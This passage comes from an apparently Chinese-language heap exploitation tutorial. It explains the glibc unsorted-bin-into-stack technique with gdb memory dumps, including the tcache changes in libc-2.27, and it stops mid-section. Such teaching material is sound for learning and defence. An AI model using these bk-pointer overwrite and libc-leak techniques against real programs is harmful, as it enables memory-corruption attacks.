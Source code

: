 ```
Malloc a chunk which size is 0x110 will return the region of our fake chunk: 0x7fffcd906490
malloc(0x100): 0x7fffcd906490
```
unsorted-bin-into-stack 通过改写 unsorted bin 里 chunk 的 bk 指针到任意地址，从而在栈上 malloc 出 chunk。

首先将一个 chunk 放入 unsorted bin，并且在栈上伪造一个 chunk：
```
gdb-peda$ x/6gx victim - 2
0x602000:	0x0000000000000000	0x0000000000000091  <-- victim chunk
0x602010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x602020:	0x0000000000000000	0x0000000000000000
gdb-peda$ x/4gx stack_buf 
0x7fffffffdbc0:	0x0000000000000000	0x0000000000000110  <-- fake chunk
0x7fffffffdbd0:	0x0000000000000000	0x00007fffffffdbc0
```
然后假设有一个漏洞，可以改写 victim chunk 的 bk 指针，那么将其改为指向 fake chunk：
```
gdb-peda$ x/6gx victim - 2
0x602000:	0x0000000000000000	0x0000000000000091  <-- victim chunk
0x602010:	0x00007ffff7dd1b78	0x00007fffffffdbc0    <-- bk pointer
0x602020:	0x0000000000000000	0x0000000000000000
gdb-peda$ x/4gx stack_buf 
0x7fffffffdbc0:	0x0000000000000000	0x0000000000000110  <-- fake chunk
0x7fffffffdbd0:	0x0000000000000000	0x00007fffffffdbc0
```
那么此时就相当于 fake chunk 已经被链接到 unsorted bin 中。在下一次 malloc 的时候，malloc 会顺着 bk 指针进行遍历，于是就找到了大小正好合适的 fake chunk：
```
gdb-peda$ x/6gx victim - 2
0x602000:	0x0000000000000000	0x0000000000000091  <-- victim chunk
0x602010:	0x00007ffff7dd1bf8	0x00007ffff7dd1bf8
0x602020:	0x0000000000000000	0x0000000000000000
gdb-peda$ x/4gx fake - 2
0x7fffffffdbc0:	0x0000000000000000	0x0000000000000110  <-- fake chunk
0x7fffffffdbd0:	0x00007ffff7dd1b78	0x00007fffffffdbc0
```
fake chunk 被取出，而 victim chunk 被从 unsorted bin 中取出来放到了 small bin 中。另外值得注意的是 fake chunk 的 fd 指针被修改了，这是 unsorted bin 的地址，通过它可以泄露 libc 地址，这正是下面 unsorted bin attack 会讲到的。

将上面的代码解除注释，就是 libc-2.27 环境下的版本，但是需要注意的是由于 tcache 的影响，`stack_buf[3]` 不能再设置成任意地址。

malloc 前：
```
gdb-peda$ x/6gx victim - 2
0x555555756250: 0x0000000000000000      0x0000000000000091  <-- victim chunk
0x555555756260: 0x00007ffff7dd2b00      0x00007fffffffdcb0
0x555555756270: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/4gx stack_buf
0x7fffffffdcb0: 0x0000000000000000      0x0000000000000110  <-- fake chunk
0x7fffffffdcc0: 0x0000000000000000      0x00007fffffffdcb0
gdb-peda$ x/26gx 0x0000555555756000+0x10
0x555555756010: 0x0700000000000000      0x0000000000000000  <-- counts
0x555555756020: 0x0000000000000000      0x0000000000000000
0x555555756030: 0x0000000000000000      0x0000000000000000
0x555555756040: 0x0000000000000000      0x0000000000000000
0x555555756050: 0x0000000000000000      0x0000000000000000
0x555555756060: 0x0000000000000000      0x0000000000000000
0x555555756070: 0x0000000000000000      0x0000000000000000
0x555555756080: 0x0000000000000000      0x0000555555756670  <-- entries
0x555555756090: 0x0000000000000000      0x0000000000000000
0x5555557560a0: 0x0000000000000000      0x0000000000000000
0x5555557560b0: 0x0000000000000000      0x0000000000000000
0x5555557560c0: 0x0000000000000000      0x0000000000000000
0x5555557560d0: 0x0000000000000000      0x0000000000000000
```
malloc 后：